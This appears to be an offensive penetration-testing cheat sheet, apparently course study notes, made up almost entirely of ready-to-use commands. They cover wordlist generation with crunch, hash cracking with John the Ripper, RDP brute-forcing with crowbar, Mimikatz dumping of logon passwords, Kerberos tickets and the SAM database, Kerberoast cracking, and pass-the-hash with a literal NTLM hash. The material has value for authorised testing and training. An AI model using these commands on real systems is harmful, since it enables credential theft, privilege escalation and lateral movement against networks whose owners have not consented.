 ### Crunch 
Placeholder | Character Translation
------------ | -------------
@ | Lower case alpha characters
, | Upper case alpha characters
% | Numeric characters
^ | Special characters including space

```
crunch 8 8 -t ,@@^^%%%
crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt
```

### John The Ripper
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

### Remote desktop attack with crowbar
`
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
`

## Windows Mimikatz, kerberos
```
#With mimikatz
mimikatz.exe
#interact with a process owned by another account
privilege::debug  

#Dump the credentials of all logged-on users using the Sekurlsa
sekurlsa::logonpasswords

#show user's tickets that are stored in memory
sekurlsa::tickets

#show user's tickets that are stored in memory
sekurlsa::tickets

#list and download tickets
kerberos::list
kerberos::list /export

#powershell equivalent of previous command
klist

#Run command remotely with TGT (PsExec uses keberos for auth)
.\PsExec.exe \\dc01 cmd.exe

#Cracking ticket
apt install kerberoast
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi

#Over used the hash
sekurlsa::logonpasswords
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

mimikatz# token::elevate
mimikatz# lsadump::sam
```